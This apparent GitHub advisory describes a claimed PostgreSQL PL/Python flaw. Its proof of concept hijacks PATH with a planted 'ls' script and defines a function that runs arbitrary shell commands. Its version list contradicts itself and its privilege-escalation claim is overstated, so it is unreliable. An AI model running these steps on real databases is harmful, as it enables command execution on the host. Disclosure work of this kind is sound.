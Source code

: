 # PostgreSQL Environment Variable Manipulation Vulnerability

## Description
This repository documents a vulnerability identified in PostgreSQL versions 16.3, 17.1 snf 17.2 that allows for unauthorized manipulation of environment variables using `PL/Python` functions. 
This issue can lead to unauthorized command execution, privilege escalation, and other potential security impacts.

## Affected Products/Versions
- **Product**: PostgreSQL
- **Versions Affected**: 16.3, 17.1

## Proof-of-Concept (PoC)
### Steps to Reproduce
1. Connect to the PostgreSQL database as a user with permissions to create functions.
   ```bash
   psql -U [username] -d [database_name]
2. Create a PL/Python function to modify the PATH environment variable:
   ```bash
   CREATE FUNCTION test_env_python() RETURNS void AS $$
   import os
   os.environ['PATH'] = '/tmp/test_bin:' + os.environ['PATH']
   $$ LANGUAGE plpython3u;
3. Verify the change by creating a custom script in /tmp/test_bin and executing it through PostgreSQL.
   Create the script:
   ```bash
   mkdir /tmp/test_bin
   echo -e '#!/bin/bash\n echo "Custom script executed!"' > /tmp/test_bin/ls
   chmod +x /tmp/test_bin/ls
4. Execute the script through a PostgreSQL function:
   ```bash
   CREATE FUNCTION run_shell_command(cmd TEXT) RETURNS void AS $$
   import subprocess
   subprocess.run(cmd, shell=True)
   $$ LANGUAGE plpython3u;

   SELECT run_shell_command('ls');

## Expected Outcome
The custom ls script in /tmp/test_bin is executed, demonstrating that environment variable manipulation allows for custom command execution.

### Impact

### This vulnerability enables:

Unauthorized Code Execution: An attacker with permissions to create functions may modify the environment and execute arbitrary commands.
Privilege Escalation: Depending on the privileges of the PostgreSQL user, an attacker may gain higher-level access or control over the underlying server.

## Suggested Mitigations

-Restrict Permissions: Limit the creation of PL/Python and PL/Perl functions to trusted users only.
-Environment Variable Sanitization: Ensure that environment variables are properly sanitized and modifications are restricted.
-Upgrade PostgreSQL: If a fix is released by the PostgreSQL Global Development Group, update to the latest version.
-Audit Database Functions: Regularly audit user-created functions to detect and prevent potential exploitation.

Discovered by Fabian Mora, November 2024.
   
